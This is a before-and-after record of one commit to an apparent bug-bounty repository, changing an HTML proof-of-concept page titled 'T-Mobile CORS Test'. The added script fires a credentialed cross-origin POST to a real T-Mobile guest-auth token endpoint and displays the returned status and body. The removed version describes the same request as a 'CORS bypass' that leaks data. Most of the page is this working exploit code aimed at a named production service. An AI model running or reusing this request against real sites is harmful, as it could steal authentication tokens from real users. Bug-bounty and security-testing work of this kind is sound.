

Before and after one commit to fermionicplants/tmobile-poc, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor index.html for improved structure and style

```diff
--- a/index.html
+++ b/index.html
@@ -1,37 +1,58 @@
 <!DOCTYPE html>
-<html lang="en">
+<html>
 <head>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>T-Mobile Bug Bounty PoC</title>
-    <style>
-        body { font-family: sans-serif; padding: 30px; background-color: #f9f9f9; }
-        .container { max-width: 800px; margin: 0 auto; background: white; padding: 20px; border-radius: 10px; border: 2px solid #e20074; }
-        h1 { color: #e20074; text-align: center; }
-        #runBtn {
-            display: block; width: 100%; padding: 20px; font-size: 1.2em;
-            background-color: #e20074; color: white; border: none;
-            border-radius: 5px; cursor: pointer; font-weight: bold;
-        }
-        #runBtn:hover { background-color: #b1005b; }
-        #output {
-            margin-top: 20px; background: #222; color: #0f0;
-            padding: 15px; border-radius: 5px; min-height: 150px;
-            overflow: auto; white-space: pre-wrap; font-family: monospace;
-        }
-        .info { font-size: 0.85em; color: #666; margin-top: 10px; }
-    </style>
+    <title>T-Mobile PoC</title>
 </head>
-<body>
+<body style="font-family:sans-serif; padding:40px;">
 
-<div class="container">
-    <h1>CORS Bypass Test</h1>
-    <p>Target: <code>adn.t-mobile.com/.../tokens</code></p>
+    <h1>T-Mobile CORS Test</h1>
+    <p>Check the browser console (F12) to see progress.</p>
 
-    <button id="runBtn">FIRE BYPASS REQUEST</button>
+    <button id="runBtn" style="padding:15px 30px; background:#e20074; color:white; border:none; cursor:pointer;">
+        FIRE REQUEST
+    </button>
 
-    <h3>Result Output:</h3>
-    <pre id="output">Click the button above. If the box stays green/empty but the Network tab shows a 200, the data is being "leaked" but blocked by the browser UI.</pre>
+    <div style="margin-top:20px;">
+        <strong>Log:</strong>
+        <pre id="output" style="background:#eee; padding:15px; border:1px solid #ccc;">Waiting for click...</pre>
+    </div>
 
-    <div class="info">
-        <b>Note:</b> We
+    <script>
+        // Log immediately to prove the script is alive
+        console.log("Script loaded and running.");
+
+        document.getElementById('runBtn').onclick = function() {
+            console.log("Button was clicked!");
+            var output = document.getElementById('output');
+            output.innerText = "Button clicked! Firing request...";
+
+            var target = 'https://adn.t-mobile.com/guest-auth/prd01/guest/v1/tokens?v=' + Date.now();
+
+            console.log("Fetching from:", target);
+
+            fetch(target, {
+                method: 'POST',
+                mode: 'cors',
+                credentials: 'include',
+                headers: {
+                    'Content-Type': 'application/x-www-form-urlencoded'
+                },
+                body: '{"grant_type":"guest"}'
+            })
+            .then(function(response) {
+                console.log("Response received with status:", response.status);
+                output.innerText = "Status: " + response.status;
+                return response.text();
+            })
+            .then(function(data) {
+                console.log("Data received:", data);
+                output.innerText += "\n\nBody: " + data;
+            })
+            .catch(function(err) {
+                console.error("Fetch error:", err);
+                output.innerText = "Error: " + err;
+            });
+        };
+    </script>
+</body>
+</html>
```
